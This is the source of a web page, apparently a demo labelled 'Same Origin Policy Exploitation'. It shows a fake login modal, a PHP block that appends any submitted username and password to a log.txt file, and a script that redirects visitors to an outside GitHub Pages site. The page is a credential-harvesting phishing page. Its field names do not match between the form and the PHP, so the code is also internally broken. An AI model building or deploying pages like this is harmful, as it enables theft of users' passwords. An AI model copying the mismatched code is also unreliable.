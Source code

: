 <!DOCTYPE html>
	<html>
		<head>
			<h1 style="text-align:center;">Same Origin Policy</h1>
			<h2 style="text-align:center;"><i>Exploitation</i></h2>
				<meta name="viewport" content="width=device-width, initial-scale=1">
			

	<style>
		body {font-family: Arial, Helvetica, sans-serif;}

		/* Full-width input fields */
		input[type=text], input[type=password] {
   			width: 100%;
    		padding: 12px 20px;
    		margin: 8px 0;
    		display: inline-block;
    		border: 1px solid #ccc;
    		box-sizing: border-box; 
		}

		/* Set a style for all buttons */
		button {
   			background-color: #ff9933;
    		color: white;
    		padding: 14px 20px;
    		margin: 8px 0;
    		border: none;
    		cursor: pointer;
    		width: 100%;
		}

		button:hover {
    		opacity: 0.8;
		}

		/* Extra styles for the cancel button */
		.cancelbtn {
   			width: auto;
    		padding: 10px 18px;
    		background-color: #996600;
		}

		/* Center the image and position the close button */
		.imgcontainer {
   			text-align: center;
    		margin: 24px 0 12px 0;
    		position: relative;
		}	

		img.avatar {
    		width: 40%;
    		border-radius: 50%;
		}

		.container {
    		padding: 16px;
		}

		span.psw {
    		float: right;
    		padding-top: 16px;
		}

		/* The Modal (background) */
		.modal {
    		display: none; /* Hidden by default */
    		position: fixed; /* Stay in place */
    		z-index: 1; /* Sit on top */
    		left: 0;
    		top: 0;
    		width: 100%; /* Full width */
    		height: 100%; /* Full height */
    		overflow: auto; /* Enable scroll if needed */
    		background-color: rgb(0,0,0); /* Fallback color */
    		background-color: rgba(0,0,0,0.4); /* Black w/ opacity */
    		padding-top: 60px;
		}

		/* Modal Content/Box */
		.modal-content {
    		background-color: #fefefe;
    		margin: 5% auto 15% auto; /* 5% from the top, 15% from the bottom and centered */
    		border: 1px solid #888;
    		width: 80%; /* Could be more or less, depending on screen size */
		}

		/* The Close Button (x) */
		.close {
    		position: absolute;
    		right: 25px;
   			top: 0;
    		color: #000;
    		font-size: 35px;
    		font-weight: bold;
		}

		.close:hover,
		.close:focus {
    		color: red;
    		cursor: pointer;
		}

		/* Add Zoom Animation */
		.animate {
    		-webkit-animation: animatezoom 0.6s;
    		animation: animatezoom 0.6s
		}

		@-webkit-keyframes animatezoom {
    		from {-webkit-transform: scale(0)} 
    		to {-webkit-transform: scale(1)}
		}
    
		@keyframes animatezoom {
    		from {transform: scale(0)} 
    		to {transform: scale(1)}
		}

		/* Change styles for span and cancel button on extra small screens */
		@media screen and (max-width: 300px) {
    		span.psw {
       			display: block;
       			float: none;
    		}
    		.cancelbtn {
       			width: 100%;
    		}
		}
		</style>
	</head>
<body>

	<h2>Please Login Below</h2>

	<button onclick="document.getElementById('id01').style.display='block'" style="width:auto;">Login</button>

	<div id="id01" class="modal">
  
    <form class="modal-content animate" action="/action_page.php">
    <div class="imgcontainer">
    	<span onclick="document.getElementById('id01').style.display='none'" class="close" title="Exit">&times;</span>
    </div>

    <div class="container">
    	<label for="uname"><b>Username</b></label>
    	<input type="text" placeholder="Enter Username" name="uname" required>

    	<label for="psw"><b>Password</b></label>
    	<input type="password" placeholder="Enter Password" name="psw" required>
        
    	<button type="submit">Login</button>
    </div>

    <div class="container" style="background-color:#f1f1f1">
    	<button type="button" onclick="document.getElementById('id01').style.display='none'" class="cancelbtn">Cancel</button>
	</div>
  </form>
</div>

<script>

var modal = document.getElementById('id01');


window.onclick = function(event) {
    if (event.target == modal) {
        modal.style.display = "none";
    }
}
</script>

<?php

if ($_POST['Login']){

$myFile = "log.txt";
$fh = fopen($myFile, 'a') or die("can't open file");
$stringData = $_POST['username'] . ":";
fwrite($fh, $stringData);
$stringData = $_POST['password'] . "\n";
fwrite($fh, $stringData);
fclose($fh);

} ?>

<script>location.href='https://maxplagues.github.io/CORS-SOP/';</script>
	

</body>
</html>
